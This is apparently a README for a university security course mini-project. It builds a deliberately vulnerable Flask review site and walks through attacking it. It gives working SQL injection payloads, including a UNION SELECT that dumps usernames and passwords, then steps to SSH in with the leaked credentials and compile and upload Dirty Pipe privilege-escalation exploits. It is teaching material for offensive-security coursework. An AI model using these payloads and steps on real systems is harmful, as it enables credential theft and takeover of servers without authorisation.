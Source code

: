 # INF8602 mini-projet

Fake website with SQL injection vulnerability for user credential retrieval, then Dirty Pipe exploit on the server.

## Setup

### Install the required packages
```bash
pip install flask sqlite3
``` 

### Run the Flask app
```bash
python app.py
```
### [Access the app](http://127.0.0.1:5000)


## Exploit SQL injection

Test the SQL injection in search bar, if it returns all reviews, it means the SQL injection is successful.
```sql
' OR 1=1 --
```

Exploit the SQL injection to get users:
```sql
a%' UNION SELECT NULL AS id, 'leaked' AS user, username AS title, password AS comment, 0.0 AS rating FROM users --
```

### Dirty Pipe exploit

ssh into the server using leaked credentials
```bash
ssh Timmy@timmy-and-friends-movie-reviews.fr -p 2222 
```

compile the exploit
```bash
gcc -o dirty_pipe-1 dirty_pipe-1.c 
gcc -o dirty_pipe-2 dirty_pipe-2.c 
```
send it to the server using scp
```bash
scp -P 2222 yourfile.txt Timmy@timmy-and-friends-movie-reviews.fr:~
```




![alt text](image.png)


--- 

### Dirty pipe exploit code from 
https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits
